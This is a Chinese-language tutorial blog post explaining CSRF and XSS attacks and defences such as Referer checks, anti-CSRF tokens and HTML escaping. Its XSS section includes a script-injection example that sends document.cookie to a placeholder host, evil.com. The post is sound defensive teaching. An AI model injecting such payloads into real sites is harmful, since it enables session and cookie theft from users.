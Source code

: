 ```yaml
---
title: CSRF与XSS
date: 2018-08-21
tags: 网络安全
---
```


CSRF与XSS都为跨站式的请求攻击容易让人混淆，本文将对这两种攻击及对应防范方法进行梳理。

<!-- more -->

### CSRF(Cross-Site Request Forgery)跨站请求伪造

攻击者盗用了用户的身份以用户的名义进行恶意请求，如发送邮件、银行转账等。

如用户A在example网站上进行转账，通过 http://example.com/withdraw?user=A&amount=100 进行转账请求并携带存储在浏览器的相关验证信息如cookie，服务器通过对cookie的验证确认用户信息完成转账。

若A在保持example网站登录时访问了恶意网站，并被引诱点击链接 http://example.com/withdraw?user=A&amount=100 ，因浏览器关于此网站的相关验证信息还没过期，该请求也携带相关验证信息对服务器进行请求，服务器通过对验证信息的确认认为用户身份没有问题也完成转账。

由此攻击者利用服务器对浏览器的信任成功盗用用户A的身份进行银行转账。

#### 防御

#### 1. 使用HTTP头部的REFERER字段

请求头中的REFERER字段记录了请求来源的地址，在处理敏感信息时一般将请求地址与Referer字段处于同一域名下，服务器可以通过对REFERER值判断该请求是否正常。从恶意网站中被引诱点击的请求REFERER值为该恶意网站，由此服务器可以拒绝此请求。
此方式简单易用，仅需要在服务器判断REFERER字段值即可。然而虽然http协议规定了不可对REFERER字段进行修改，实际上并不能保证浏览器的具体实现，有些低级浏览器的安全漏洞也使得攻击者对REFERER字段进行修改。

#### 2. 使用验证码

验证码强制用户必须参与请求交互，通常情况下可以很好防止CSRF攻击。但出于用户体验的考虑，一个网站并不可能每个请求都需要用户输入验证码。此方法只能作为协助手段，并不能通用解决CSRF问题。

#### 3. 使用Anti CSRF Token验证

CSRF攻击者利用了存储在浏览器的验证信息通过服务器验证，其实只要验证信息不直接存储在浏览器中即可防范。
服务器可以使用cookie或Session携带验证信息的token，但直接使用cookie或Session进行请求并不能通过服务器验证，而是需要客户端获取cookie或Session中token信息并在请求头设置验证字段发送请求。
浏览器的同源策略使得处于不同域名下的恶意网站并不能获取分析浏览器中的cookie或Session信息，从而不能设置具体的请求验证字段通过服务器验证。
此方法最为常用。

### XSS（Cross-site scripting)跨站脚本

攻击者利用网页开始时留下的漏洞，通过巧妙的方法往网页中注入恶意代码，使用户加载和执行这些恶意代码从而达到网页攻击的作用，如修改网页内容，盗取网站cookie或会话信息等。

如一个网站上有留言板，将用户输入信息显示出来，若不对输入信息进行处理，攻击者便有机会往留言板写入恶意js代码进行攻击。
正常用户往留言板留言：
```
Nice!
```
留言板的HTML代码将为：
```
//  这是一个正常显示的留言板
<div> 
    Nice
</div>
```
恶意攻击者往留言板留言：
```
<script>alert('you are attacked!');</script>
```
留言板的HTML代码将为：
```
//  这是一个被攻击的留言板
<div> 
    <script>alert('you are attacked!');</script>   
</div> 
```
其中的js代码将会执行，浏览器弹出对话框显示you are attacked!。这只是弹出对话框吓一下你，然而当攻击者通过留言获取网站的cookie信息就危险了：
```
<script>window.open(www.evil.com?content=document.cookie);</script>
```
www.evil.com 便可得到用户在该网站的cookie信息了。

#### 防御

#### 1. 对输入值进行转义

其实本质就是不相信任何用户输入，不能将用户输入直接写到HMLT DOM结果里。若网站开发者将留言板的输入信息过滤掉<scirpt></sciprt>这个HTML元素，其中的JS代码将不会被浏览器解析危害用户了。开发者可使用以下[规则](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)对输入值进行转义：

| 转义类型 | 转义方式 |
| ------- | --------------------------------------- |
| HTML实体转义 | ```&``` 转为 ```&amp;``` <br> ```<``` 转为 ```&lt;``` <br> ```>``` 转为 ```&gt;``` <br> ```"``` 转为 ```&quot;``` <br> ```'``` 转为 ```&#27;``` <br> ```/``` 转为 ```&#x2F;``` |
| HTML属性编码 | 除了字母，转换所有字符为```&#xHH```;形式，包括空格（HH = Hex数值）    |
| URL编码     | URL编码应该只用于参数部分，而不是整个URL或URL路径部分。<br> 标准的编码可参考 http://www.w3schools.com/tags/ref_urlencode.asp    |
| JavaScript编码  | 除了字母，转换所有字符为```\uXXXX```的unicode转义形式（X=整数）     |
| CSS Hex编码   |  CSS转义支持```\XX```和```\XXXXXX```的形式。如果下一个字符会继续转义序列，那使用两个字符的转义形式可能会出现问题。<br> 有两种解决办法（a）在CSS转义后添加一个空格（会被CSS解析器忽略）（b）使用0填充以实现完整的CSS转义格式。 |

如用户输入内容是：
```
<script>alert('attacked!');</script>
```
转义后的字符串是：
```
&lt;script&gt;alert(&quot;attacked!&quot;)&lt;/script&gt;
```

浏览器遇到<script></script>字符串会对其进行JS代码解析，但遇到```&lt;&gt;```这样的字符就不会当做JS代码执行而仅作为普通字符串打印，由此可以防范代码注入。
当今的主流前端框架如[Angular](https://angular.cn/guide/security)等已支持对输入值的无公害处理以防范XSS，使用这些框架我们则不需要自己对输入信息进行转义。

### 总结
可以说XSS 利用的是用户对指定网站的信任; CSRF 利用的是网站对用户网页浏览器的信任。
使用对应的手段可以防御一定的网络攻击，但作为开发者，我们也只能尽可能提高网络攻击的难度，没有一定安全的网络。只有进一步提高攻击者的门槛使得网络逼近绝对安全的位置。